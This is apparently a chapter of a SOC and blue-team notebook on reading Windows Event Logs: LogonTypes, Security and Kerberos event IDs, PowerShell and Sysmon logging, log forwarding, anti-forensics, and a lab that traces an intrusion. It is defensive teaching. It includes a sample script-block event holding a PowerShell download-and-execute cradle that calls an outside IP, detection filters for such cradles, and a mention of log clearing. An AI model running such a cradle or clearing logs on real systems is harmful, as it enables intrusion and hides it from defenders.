






**Level:** Intermediate · **Track:** SOC & Blue Team · **Read time:** 175 min

This is Chapter 7 of the SOC & Blue Team notebook, and it closes the loop the last three chapters opened. Chapters 4, 5, and 6 taught you to query Splunk, Sentinel, and Elastic — but every `EventCode=4624`, every `SecurityEvent | where EventID == 4769`, every `event.code : "1102"` pointed at a **Windows event** whose meaning we largely took on faith. This chapter pays that debt. Windows is the dominant enterprise OS, the primary target of most intrusions, and the Windows Event Log is the single richest, most-queried data source in a typical SOC. If you can read Windows events fluently — know what a LogonType 3 versus 10 means, why 4769 with RC4 encryption screams Kerberoasting, how to spot a cleared log — every SIEM query you write becomes sharper, and you can investigate directly on a host even when the SIEM is silent.

This is a source-knowledge chapter. We go deep on the event IDs, the fields inside them, and the attack patterns they reveal, then on the tooling to read them (Event Viewer, `wevtutil`, `Get-WinEvent`, and the modern forensic triage tools EvtxECmd, Chainsaw, and Hayabusa), then on **Sysmon** — the free add-on that turns ordinary Windows into a rich sensor — and **Windows Event Forwarding**, the native way to centralize logs. Throughout, the offense-to-defense mapping from Chapter 3 stays front and center: each event ID is tied to the ATT&CK techniques it detects.

The framing note, one last time: these logs come from systems you own and are authorized to monitor. Reading Windows events is defensive, forensic work; the attack patterns we decode are there to be *caught*. Practice on your own lab (Chapter 1, Part 13f) and public sample EVTX sets, never on systems you have no authority over.

We build from the Windows logging architecture and channels, the EVTX format and event anatomy, logon events and LogonTypes, the essential Security event IDs by category, Kerberos and AD-attack events in depth, process-creation and command-line auditing, PowerShell logging, Sysmon in depth, WEF/WEC collection, anti-forensics and log tampering, the analyst tooling, a full hands-on lab reading an attack from the logs, a consolidated detection-and-defense section, a final revision, a cheat sheet, and topic-specific practice.

## Why This Matters

Ask any experienced incident responder what data source they reach for first on a Windows intrusion, and the answer is the Event Log. It records who logged on and how, what processes ran with what command lines, which accounts and groups changed, which services and tasks were created, which Kerberos tickets were requested, and whether anyone tried to cover their tracks by clearing it. An attacker's entire on-host journey — initial access, execution, persistence, privilege escalation, credential theft, lateral movement — leaves fingerprints in these logs. Reading them is the closest thing a SOC analyst has to a security camera on every endpoint.

For the SIEM work of Chapters 4–6, this chapter is the missing foundation. You wrote detections against 4624, 4625, 4688, 4769, 1102 without fully knowing what each field means; now you will. That depth is what separates an analyst who pattern-matches an alert from one who *understands* it — who can look at a raw 4624 with LogonType 9 and NewCredentials and recognize a `runas /netonly` pass-the-hash, or read a burst of 4769 with RC4 tickets as Kerberoasting in progress. It is also what lets you investigate on a host directly with `Get-WinEvent` when the SIEM has a gap.

**Who this is for:** SOC analysts, incident responders, and threat hunters working Windows environments — which is nearly all of them — and offensive practitioners who want to understand exactly what their actions log, so they can operate more carefully and report more usefully.

## Part 1: The Windows Logging Architecture

Windows logging is organized into **channels** — named event streams, each stored as an `.evtx` file under `C:\Windows\System32\winevt\Logs\`. Event Viewer (`eventvwr.msc`) is the built-in GUI; underneath, everything is EVTX files and the Windows Event Log service.

The channels that matter for security:

- **Security** — the crown jewel: authentication, authorization, account/group changes, process creation, policy changes, object access. Written by the Local Security Authority; controlled by **audit policy**. This is where most detection lives.
- **System** — OS and driver events, service control (7045 service install), some persistence tells.
- **Application** — application events, crashes, some AV/EDR logs.
- **Setup** — installation/servicing events.
- **Forwarded Events** — the destination channel for events collected from other hosts via WEF (Part 10).

Beyond these classic logs are the **Applications and Services Logs** — hundreds of granular channels, including the security-critical:

- **Microsoft-Windows-PowerShell/Operational** — PowerShell script-block (4104) and module logging.
- **Microsoft-Windows-Sysmon/Operational** — Sysmon events (Part 9).
- **Microsoft-Windows-TaskScheduler/Operational** — scheduled-task activity.
- **Microsoft-Windows-Windows Defender/Operational** — Defender detections and tampering.
- **Microsoft-Windows-TerminalServices-*** — RDP session events.
- **Microsoft-Windows-WMI-Activity/Operational** — WMI, a common LOLBin/persistence vector.



A crucial point that connects to Chapter 2: **most of the highest-value auditing is OFF by default.** Process-creation logging (4688) with command lines, PowerShell script-block logging, and detailed object-access auditing must be *enabled* via Group Policy / audit policy. A Windows box out of the box logs logons but not the command lines attackers run. Enabling the right audit policy is the single biggest free visibility win in a Windows shop (the Chapter 2 lesson, made specific).

## Part 2: Anatomy of a Windows Event

Every event has a consistent structure. Learn it and any event becomes readable.

- **Event ID** — the number identifying the event type (4624 = successful logon). The primary thing you filter on.
- **Channel/Log** — which log it lives in (Security, System, ...).
- **Level** — Information, Warning, Error, Critical (operational severity, *not* security severity — Chapter 2's caution: a successful logon is "Information").
- **Provider/Source** — the component that wrote it (Microsoft-Windows-Security-Auditing, Microsoft-Windows-Sysmon).
- **TimeCreated** — the timestamp (watch timezone; Windows logs in local time in the GUI but stores UTC).
- **Computer** — the host.
- **EventData** — the event-specific fields (the payload): usernames, IPs, LogonType, process names, command lines, etc. This is where the signal is.

A 4624 (successful logon) in its meaningful fields:

```
EventID:            4624
Provider:           Microsoft-Windows-Security-Auditing
TimeCreated:        2027-02-17T09:03:22Z
Computer:           WKS-2291
--- EventData ---
SubjectUserName:    -              (the account that requested; often SYSTEM/machine$)
TargetUserName:     alice          (the account that logged on)   <- ACTOR
TargetDomainName:   ACME
LogonType:          3              (network)                        <- KEY FIELD
IpAddress:          10.0.4.5
WorkstationName:    LAPTOP-ALICE
LogonProcessName:   NtLmSsp
AuthenticationPackageName: NTLM
```

The field that makes the event meaningful is almost always in EventData, and for logons it is **LogonType** — the single most important field in Windows security logging.

## Part 3: Logon Events and LogonTypes

Authentication is the backbone of Windows detection, and **4624 (success)** / **4625 (failure)** are the events you will read most. What turns them from noise into signal is the **LogonType**, which tells you *how* the logon happened — and different types tell completely different stories.

| LogonType | Meaning | Analyst reading |
|-----------|---------|-----------------|
| 2 | Interactive (at the keyboard / console) | Someone physically/console logged on |
| 3 | Network (accessing a share, most auth) | The most common; SMB, remote auth |
| 4 | Batch (scheduled task) | Automation |
| 5 | Service (service account starting) | Service logon |
| 7 | Unlock (workstation unlocked) | Screen unlock |
| 8 | NetworkCleartext (creds sent in cleartext) | Basic auth, IIS — worth scrutiny |
| 9 | NewCredentials (`runas /netonly`) | **Pass-the-hash / over-pass-the-hash tell** |
| 10 | RemoteInteractive (RDP) | RDP session — watch servers/odd hours |
| 11 | CachedInteractive (cached creds, offline) | Logon with cached domain creds |

Why this matters concretely: a **LogonType 10 (RDP)** to a domain controller at 3 a.m. from a workstation is far more interesting than a LogonType 3. A **LogonType 9 (NewCredentials)** is a classic pass-the-hash / over-pass-the-hash indicator, because that is how `runas /netonly` and many credential-theft tools present alternate credentials to the network without a normal interactive logon. A **LogonType 8 (NetworkCleartext)** means a password crossed the wire in the clear — worth investigating for legacy/basic-auth exposure.

Related authentication events you must know:

- **4625 — failed logon.** The `Status`/`SubStatus` codes explain *why* (0xC000006A = bad password, 0xC0000064 = no such user, 0xC0000234 = account locked). A flood of 4625 = brute force (Chapter 2); many distinct target users from one source = spraying.
- **4634 / 4647 — logoff.** Session end; used with 4624 to compute session duration and build timelines.
- **4648 — logon using explicit credentials** (`runas`, or a tool supplying creds). A lateral-movement and credential-use tell.
- **4672 — special privileges assigned to a new logon.** Fires when an account with admin-equivalent privileges logs on. A 4672 on an account that should not be privileged is a red flag.
- **4776 — NTLM authentication (on the DC/credential validator).** Useful for tracking NTLM auth and its failures.



## Part 4: The Essential Security Event IDs

Beyond logons, a compact set of Security-channel events covers most detection. Memorize these; they are the vocabulary of Windows detection and recur across every SIEM chapter.

**Account and group changes (persistence / privilege abuse):**

| Event ID | Meaning | ATT&CK |
|----------|---------|--------|
| 4720 | User account created | T1136 Create Account |
| 4722 | Account enabled | T1098 |
| 4724 | Password reset attempt | T1098 |
| 4725 | Account disabled | — |
| 4726 | User account deleted | anti-forensics/cleanup |
| 4728 | Member added to **global** security group | T1098 / priv abuse |
| 4732 | Member added to **local** security group (e.g., local Admins) | T1098 |
| 4756 | Member added to **universal** security group | T1098 |
| 4738 | User account changed | T1098 |
| 4740 | Account locked out | brute-force aftermath |

A **4728/4732 adding an account to "Domain Admins" or local "Administrators"** is one of the highest-signal privilege-escalation events there is — alert on it aggressively (Chapter 1's crown-jewel prioritization).

**Process and execution (the behavioral gold):**

| Event ID | Meaning | Notes |
|----------|---------|-------|
| 4688 | Process creation | Enable command-line auditing to capture `CommandLine`! |
| 4689 | Process exit | Session/timeline reconstruction |

**4688 is the workhorse of behavioral detection** — but only if **command-line auditing is enabled** (Group Policy: *Include command line in process creation events*). Without it, 4688 shows the process name but not the arguments, and "powershell.exe" tells you nothing while "powershell.exe -enc SQBFAF..." tells you everything. It also records the **parent process** (`ParentProcessName`/`NewProcessName`), enabling the winword→powershell detection from Chapter 3.

**Persistence via services and tasks:**

| Event ID | Log | Meaning | ATT&CK |
|----------|-----|---------|--------|
| 7045 | System | Service installed | T1543.003 |
| 4697 | Security | Service installed (needs audit) | T1543.003 |
| 4698 | Security | Scheduled task created | T1053.005 |
| 4699 | Security | Scheduled task deleted | cleanup |
| 4702 | Security | Scheduled task updated | T1053.005 |

**Logon session & special-privilege events (recap):** 4624/4625 (logon/fail), 4634/4647 (logoff), 4648 (explicit creds), 4672 (special privileges — admin-equivalent logon), 4776 (NTLM validation). These, read by LogonType, are the backbone of authentication monitoring from Part 3.

**Policy and log tampering (defense evasion):**

| Event ID | Meaning | ATT&CK |
|----------|---------|--------|
| 1102 | Security log cleared | T1070.001 — near-pure signal |
| 104 | System/App log cleared | T1070.001 |
| 4719 | System audit policy changed | T1562 |
| 4657 | Registry value modified (needs audit) | persistence/config |
| 4663 | Object access attempt (needs audit) | T1005/T1039 collection |

## Part 5: Kerberos and AD-Attack Events

In an Active Directory environment, Kerberos events on the domain controllers are how you catch the marquee AD attacks from the pentest notebooks — now from the defender's chair. These are among the most valuable detections a SOC can build.

- **4768 — Kerberos TGT requested (AS-REQ).** A user authenticating. The `TicketEncryptionType` and `PreAuthType` fields matter: `PreAuthType=0` (no pre-auth) on a 4768 is the tell for **AS-REP Roasting** (T1558.004) — an account with "do not require Kerberos pre-authentication" set, whose AS-REP can be cracked offline.
- **4769 — Kerberos service ticket requested (TGS-REQ).** A user requesting access to a service. **`TicketEncryptionType=0x17` (RC4)** on 4769 is the classic **Kerberoasting** (T1558.003) tell — the attacker requests service tickets encrypted with weak RC4 to crack offline. A burst of 4769 with RC4 for many distinct SPNs from one account is Kerberoasting in progress.
- **4771 — Kerberos pre-authentication failed.** Kerberos brute force / bad password (the Kerberos analog of 4625).
- **4770 — Kerberos service ticket renewed.**

The heavy hitters for advanced AD attacks:

- **DCSync (T1003.006)** — an attacker with replication rights pulls password hashes from AD as if they were a DC. Detected via **4662** (operation on a directory object) where the `Properties` include the **DS-Replication-Get-Changes** GUID (`1131f6aa-9c07-11d1-f79f-00c04fc2dcd2`) from a host that is **not** a domain controller. Extremely high signal.
- **Golden/Silver Ticket (T1558.001/.002)** — forged TGTs/TGSs. Harder to detect directly; tells include TGS requests (4769) without a preceding TGT request (4768), tickets with anomalous lifetimes, and accounts that never actually authenticated appearing to hold tickets.
- **Kerberoasting**, again, keyed on 4769 + RC4 (above).



**Blue team usage:** these Kerberos detections are why Chapter 3 called Kerberoasting a "cheap gap to close" — the data (4769) is on your DCs already; you just need the rule. Enabling Kerberos auditing and writing these detections covers a whole family of the most common AD attacks.

## Part 6: Command-Line Auditing and PowerShell Logging

Modern attacks are "fileless" and live off the land (Chapter 1's case studies), so **command-line and script visibility** is where you catch them. Two logging features are essential and both are off by default.

**Process command-line auditing.** Enable *Audit Process Creation* + *Include command line in process creation events* (Group Policy). Now 4688 captures the full `CommandLine`, turning it from "a process ran" into "this exact command ran with these arguments." This is what makes the LOLBin and encoded-PowerShell detections from Chapters 3–6 possible.

**PowerShell logging** — three layers, in the Microsoft-Windows-PowerShell/Operational (and Windows PowerShell) channels:

- **Module logging (4103)** — logs pipeline execution details per module.
- **Script Block Logging (4104)** — the big one: logs the actual *deobfuscated* PowerShell script blocks executed, even if the attacker used `-enc` or layered obfuscation, because PowerShell logs the code *after* it decodes it. A 4104 with `FromBase64String`, `IEX (New-Object Net.WebClient).DownloadString`, or AMSI-bypass strings is a direct catch.
- **Transcription** — writes full session transcripts to a file.

```
# EventID 4104 (Script Block Logging) - the deobfuscated code, even from -enc
Message: Creating Scriptblock text (1 of 1):
  IEX (New-Object Net.WebClient).DownloadString('http://45.146.13.7/a.ps1')
Path:  <no file>
```

That single event catches what an encoded command line tried to hide — which is why enabling script-block logging is one of the highest-value Windows visibility improvements. **Red team usage (as context):** offensive operators know 4104 deobfuscates their payloads, so they attack the logging itself (AMSI bypass, disabling PowerShell logging) — which in turn generates *its own* detectable events (4719 audit-policy change, tampering with the ETW providers), an arms race the defender wins by monitoring the logging's integrity (Part 8).

Also valuable: **WMI activity** (Microsoft-Windows-WMI-Activity/Operational, Event ID 5857–5861) for WMI-based execution and persistence (T1047), and **Scheduled Task** operational events for task-based persistence (T1053.005).

## Part 7: Sysmon In Depth

Native Windows auditing is good; **Sysmon (System Monitor)**, a free Sysinternals tool, makes it *great*. Sysmon is a driver + service that logs high-fidelity endpoint telemetry to Microsoft-Windows-Sysmon/Operational, with detail native logs lack (process hashes, network connections tied to processes, image loads, and more). It is the blue-team favorite for turning ordinary Windows into a rich sensor, and it feeds every SIEM in Chapters 4–6.

Install and configure from scratch:

```powershell
# Download Sysmon from Sysinternals, install with a good config
# (SwiftOnSecurity's config is a widely-used, well-commented starting point)
.\Sysmon64.exe -accepteula -i sysmonconfig-export.xml
# Update the config later:
.\Sysmon64.exe -c sysmonconfig-export.xml
```

The Sysmon event IDs you will use constantly:

| Sysmon ID | Event | Catches (ATT&CK) |
|-----------|-------|------------------|
| 1 | Process creation (hashes + full cmdline + parent) | Execution, LOLBins, phishing chains |
| 2 | File creation time changed | Timestomping (T1070.006) |
| 3 | Network connection (tied to process) | C2, exfil, lateral movement |
| 5 | Process terminated | timeline |
| 6 | Driver loaded | malicious drivers (BYOVD) |
| 7 | Image/DLL loaded | DLL side-loading, injection (T1574) |
| 8 | CreateRemoteThread | process injection (T1055) |
| 9 | RawAccessRead | raw disk access (credential/NTDS theft) |
| 10 | ProcessAccess | **LSASS access → credential dumping (T1003.001)** |
| 11 | File created | dropped payloads, ransomware, web shells |
| 12–14 | Registry events | persistence (Run keys), config changes |
| 15 | FileCreateStreamHash | ADS / download marks |
| 17–18 | Pipe created/connected | named-pipe C2, PsExec |
| 22 | DNS query | C2 domains, tunneling |
| 23/26 | File delete | anti-forensics, ransomware |

Sysmon 1 vs native 4688: both log process creation, but **Sysmon 1 adds the SHA256/IMPHASH, the parent process command line, and a consistent schema**, and it works without enabling native command-line auditing. Sysmon 10 (ProcessAccess to `lsass.exe`) is one of the single most valuable credential-theft detections you can deploy — the Chapter 3 recipe lives here. The tradeoff: Sysmon needs a well-tuned config (SwiftOnSecurity's or Olaf Hartong's `sysmon-modular`) to avoid drowning in noise, and it is an add-on to deploy and maintain.



## Part 8: Anti-Forensics — When Attackers Attack the Logs

A sophisticated intruder eventually tries to blind or erase the very logs you rely on (Chapter 2's log-integrity theme, now with specific events). Knowing the tells:

- **1102 (Security log cleared)** and **104 (other log cleared)** — the act of clearing generates its own event. Legitimate clears are rare and should be change-controlled, so **1102 is one of the highest-signal detections there is** — alert on every occurrence. The interesting activity is usually *just before* the gap.
- **4719 (audit policy changed)** — an attacker disabling auditing to go dark. High signal on servers/DCs.
- **Disabling/tampering with Sysmon or the EDR** — a suddenly-silent Sysmon channel (Chapter 2's source-silence detection) or Defender-tampering events (Microsoft-Windows-Windows Defender/Operational 5001, 5010, 5012) mark evasion.
- **`wevtutil cl` / `Clear-EventLog` / PowerShell removing logs** — visible in 4688/4104 as the command that did the clearing (if command-line logging is on *before* they clear it — another reason to ship logs off-box in real time).
- **Timestomping (Sysmon 2)** — altering file MACE timestamps to hide artifacts.
- **ETW tampering / PowerShell downgrade** — attacks on the logging pipeline itself.

The defensive posture from Chapter 2 applies directly: **forward logs off-box in real time** so an attacker who later clears the local log cannot erase the centralized copy, **alert on the silence** as well as the content, and treat every log-integrity event as high priority — a cleared log or a dead Sysmon channel marks the moment the attacker started covering tracks, and the good stuff is right before it.

## Part 9: The Analyst's Toolkit — Reading EVTX

You will read Windows events several ways depending on where you are.

**Event Viewer (`eventvwr.msc`)** — the GUI. Fine for a quick look on a single host; filter by Event ID, create Custom Views, but slow for bulk work.

**`wevtutil`** — the built-in command-line tool: query, export, and clear logs.

```cmd
:: Query the last 10 failed logons as text
wevtutil qe Security /q:"*[System[(EventID=4625)]]" /c:10 /rd:true /f:text
:: Export a log to an EVTX file for offline analysis
wevtutil epl Security C:\triage\security.evtx
```

**`Get-WinEvent` (PowerShell)** — the analyst's power tool, on a host or against exported EVTX:

```powershell
# Failed logons with source IP and target user (fast, filtered at the source)
Get-WinEvent -FilterHashtable @{LogName='Security'; Id=4625} -MaxEvents 50 |
  ForEach-Object {
    [pscustomobject]@{
      Time = $_.TimeCreated
      User = $_.Properties[5].Value
      Src  = $_.Properties[19].Value
    }
  }

# Read an exported EVTX file offline (e.g., during IR)
Get-WinEvent -Path C:\triage\security.evtx -FilterXPath "*[System[(EventID=1102)]]"

# Every 4688 whose command line contains -enc (needs cmdline auditing)
Get-WinEvent -FilterHashtable @{LogName='Security'; Id=4688} |
  Where-Object { $_.Message -match '-enc' }
```

Use **`-FilterHashtable`** (filters at the log engine, fast) rather than piping everything to `Where-Object` (slow) — the same "filter early" lesson as SPL/KQL.

**Modern forensic triage tools** — for real incident work, purpose-built tools crush Event Viewer:

- **EvtxECmd** (Eric Zimmerman) — parses EVTX to CSV/JSON with maps that decode fields into readable columns; the DFIR standard for EVTX parsing.
- **Chainsaw** (WithSecure) — fast EVTX hunting that applies **Sigma rules** (Chapter 6) and built-in detections across a pile of EVTX files, outputting ATT&CK-tagged hits. Perfect for triaging a host's logs quickly.
- **Hayabusa** (Yamato Security) — fast Windows event-log threat hunting with a large built-in Sigma-based ruleset and a timeline output; excellent for rapid triage and a "greppable" attack timeline.
- **DeepBlueCLI** — PowerShell script that flags suspicious events (encoded PowerShell, user creation, etc.) from a log or EVTX.

```bash
# Chainsaw: hunt a directory of EVTX with Sigma rules, ATT&CK-tagged output
chainsaw hunt ./evtx_logs -s sigma/ --mapping mappings/sigma-event-logs-all.yml

# Hayabusa: generate a triage timeline of detections from EVTX
hayabusa csv-timeline -d ./evtx_logs -o results.csv
```

These tools turn "a folder of EVTX from a compromised host" into "an ATT&CK-tagged timeline of suspicious events" in seconds — the fastest path from raw logs to an incident narrative, and a skill worth building for IR.

## Part 10: Centralizing Logs — Windows Event Forwarding (WEF)

Reading logs host-by-host does not scale; you centralize. The native, agentless way is **Windows Event Forwarding (WEF)**: source hosts forward selected events to a **Windows Event Collector (WEC)** server over WinRM, landing in the **Forwarded Events** channel, from which your SIEM agent picks them up. (Agents like Winlogbeat/Elastic Agent, the Splunk UF, or the Azure Monitor Agent can also collect directly — Chapters 4–6.)

WEF's value: it is built into Windows (no third-party agent), it is centrally configurable via **subscriptions** (which events to forward from which hosts), and Microsoft publishes curated subscription baselines that forward exactly the security-relevant events. The design pattern:



The Chapter 2 pipeline-and-integrity lessons apply: forward in real time so local log-clearing cannot erase the centralized copy, monitor for source hosts that stop forwarding (silence detection), and forward the *right* events (Microsoft's WEF baselines are a good, curated starting point rather than forwarding everything).

## Part 11: Hands-On Lab — Read an Attack From the Logs

This lab reconstructs the by-now-familiar intrusion (Chapters 2–3) directly from Windows/Sysmon events, using the tooling above — the pure source-reading skill, no SIEM required. Do it against your own lab EVTX (run Atomic Red Team, export the logs) or a public sample set.

**Scenario.** You are handed exported EVTX from `WKS-2291` after a phishing report. Find the story.

### Step 1 — Triage the whole log set fast

```bash
# Point Hayabusa/Chainsaw at the exported logs for an instant ATT&CK timeline
hayabusa csv-timeline -d ./WKS-2291_evtx -o triage.csv
```

This surfaces the high-signal hits (encoded PowerShell, LSASS access, new service) with technique tags — your map of where to look.

### Step 2 — Confirm the initial execution (Sysmon 1 / 4688)

```powershell
Get-WinEvent -Path .\Sysmon.evtx -FilterXPath "*[System[(EventID=1)]]" |
  Where-Object { $_.Message -match 'winword\.exe' -and $_.Message -match 'powershell' } |
  Select-Object TimeCreated, @{n='Msg';e={$_.Message}}
```

Expected: `winword.exe` → `powershell.exe -enc ...` — Initial Access + Execution (T1566/T1059.001), with the parent-child chain visible.

### Step 3 — Deobfuscate via script-block logging (4104)

```powershell
Get-WinEvent -Path .\PowerShell-Operational.evtx -FilterXPath "*[System[(EventID=4104)]]" |
  Where-Object { $_.Message -match 'DownloadString|FromBase64String|IEX' } |
  Select-Object TimeCreated, Message
```

Expected: the deobfuscated download cradle reaching the C2 IP/domain — even though the command line was encoded. This is script-block logging earning its keep.

### Step 4 — Find the network connection and DNS (Sysmon 3 / 22)

```powershell
Get-WinEvent -Path .\Sysmon.evtx -FilterXPath "*[System[(EventID=3 or EventID=22)]]" |
  Where-Object { $_.Message -match 'powershell\.exe' }
```

Expected: Sysmon 22 (DNS query for the C2 domain) and Sysmon 3 (connection to the C2 IP) tied to powershell.exe — C2 confirmed (T1071.001), with the domain as a durable IOC to hunt fleet-wide.

### Step 5 — Credential access (Sysmon 10)

```powershell
Get-WinEvent -Path .\Sysmon.evtx -FilterXPath "*[System[(EventID=10)]]" |
  Where-Object { $_.Message -match 'lsass\.exe' -and $_.Message -notmatch 'MsMpEng|wininit' }
```

Expected: a non-security process opening `lsass.exe` with read access — credential dumping (T1003.001).

### Step 6 — Lateral movement and privilege change (4624 / 4672 / 4728)

```powershell
Get-WinEvent -Path .\Security.evtx -FilterXPath "*[System[(EventID=4624)]]" |
  Where-Object { $_.Message -match 'Logon Type:\s+3' }    # network logons out
Get-WinEvent -Path .\Security.evtx -FilterXPath "*[System[(EventID=4728 or EventID=4732)]]"
```

Expected: LogonType 3 to the file server (T1021.002) and, if the attacker escalated, a 4728/4732 adding an account to a privileged group — the crown-jewel event to alert on.

### Step 7 — Check for anti-forensics (1102 / 4719)

```powershell
Get-WinEvent -Path .\Security.evtx -FilterXPath "*[System[(EventID=1102 or EventID=4719)]]"
```

If a 1102 appears, note its time — the attacker cleared the log, and everything *before* that timestamp is the interesting window (and thank goodness you forwarded off-box).

### Step 8 — Assemble the timeline and map to ATT&CK

Merge the events by time into one narrative (Chapter 2's timeline skill): phishing doc → encoded PowerShell (deobfuscated via 4104) → DNS + C2 connection → LSASS access → network logon to the file server → (possible) privilege change → (possible) log clear. Map each to ATT&CK (Chapter 3), and note which events required *enabled* auditing (4688 cmdline, 4104, Sysmon) — a coverage lesson: without those, half this story would be invisible. Finally, turn the durable behaviors into SIEM detections (Chapters 4–6). You have now read a full intrusion directly from Windows logs — the deepest source skill in the SOC.

## Part 11b: Reading Specific Attacks Straight From the Logs

The real skill is recognizing an attack's *signature* in the events. Here is how the common techniques from the offensive notebooks appear in Windows logs — the pattern library to build in your head.

### Pass-the-Hash / Pass-the-Ticket

```
4624 LogonType=9 (NewCredentials)  LogonProcessName=seclogon
  AuthenticationPackageName=Negotiate  + often preceding Sysmon 10 (LSASS)
```

